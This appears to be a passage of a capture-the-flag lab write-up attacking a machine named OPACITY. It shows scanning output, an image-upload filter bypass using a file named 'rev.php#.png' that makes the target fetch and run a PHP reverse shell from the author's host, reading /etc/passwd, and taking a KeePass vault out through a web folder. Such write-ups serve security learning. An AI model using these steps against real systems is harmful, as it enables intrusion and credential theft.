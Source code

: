 Starting with basic ping to make sure that I have a connection to the target.
````
PING 10.10.126.252 (10.10.126.252) 56(84) bytes of data.
64 bytes from 10.10.126.252: icmp_seq=1 ttl=63 time=57.5 ms
64 bytes from 10.10.126.252: icmp_seq=2 ttl=63 time=57.3 ms
64 bytes from 10.10.126.252: icmp_seq=3 ttl=63 time=59.8 ms
64 bytes from 10.10.126.252: icmp_seq=4 ttl=63 time=57.9 ms

--- 10.10.126.252 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 57.339/58.129/59.765/0.965 ms
````

A basic Nmap scan to find out which ports are open
````
Nmap scan report for 10.10.126.252
Host is up (0.060s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 93.99 seconds
````

I then refined the scan a bit to find out more about the services running on the target.
`sudo nmap -sVC -p22,80,139,445 10.10.126.252`
````
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-11-27T14:39:28
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
````

There is a login page in the webserver so that is where I'm going to start as it's the most promising.
I checked the page source but there was nothing. I then tried a few basic usernames and passwords for the login but to no avail.
Decided to brute force for directories with feroxbuster `feroxbuster -u http://10.10.126.252`
````
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.126.252
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://10.10.126.252/ => login.php
301      GET        9l       28w      314c http://10.10.126.252/cloud => http://10.10.126.252/cloud/
301      GET        9l       28w      321c http://10.10.126.252/cloud/images => http://10.10.126.252/cloud/images/
[####################] - 63s    90006/90006   0s      found:3       errors:35
[####################] - 55s    30000/30000   544/s   http://10.10.126.252/
[####################] - 44s    30000/30000   686/s   http://10.10.126.252/cloud/
[####################] - 46s    30000/30000   649/s   http://10.10.126.252/cloud/images/
````

`/cloud/` allows uploading images via external URLs. As expected there is a filter that only allows image files to be uploaded. 
I use `https://www.revshells.com/` to generate a PHP reverse shell that I can try to upload. 
I named my reverse shell `rev.php#.png` and hosted it with `python3 -m http.server 8082`
The website tries to GET `rev.php` so I changed the reverse shell name to `rev.php`
`http://<my_ip>:8082/rev.php#.png` downloads my PHP reverse shell and executes it. I had a listener `ncat -lvnp 1234` that caught the connection.
````
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.126.252:42896.
SOCKET: Shell has connected! PID: 1788
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
````
I went a few directories up and found the `login.php` that has a clear text username and password list for the login page.
The site had pretty much nothing in it sadly.

`cat /etc/passwd | grep -v nologin` allows me to check users that might have login allowed.
````
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sysadmin:x:1000:1000:sysadmin:/home/sysadmin:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
````

In `sysadmin`s home directory there are a few files I can read but nothing interesting in them.
While checking `/opt` directory I stumbled across `dataset.kdbx` which is a KeePass password vault file.
I could not use SCP to transfer the file so I tried the `/cloud/images` folder. 
So I copied the `dataset.kdbx` to `/var/www/html/cloud/images` and then went to `http://10.10.126.252/cloud/images/dataset.kdbx` to download it.














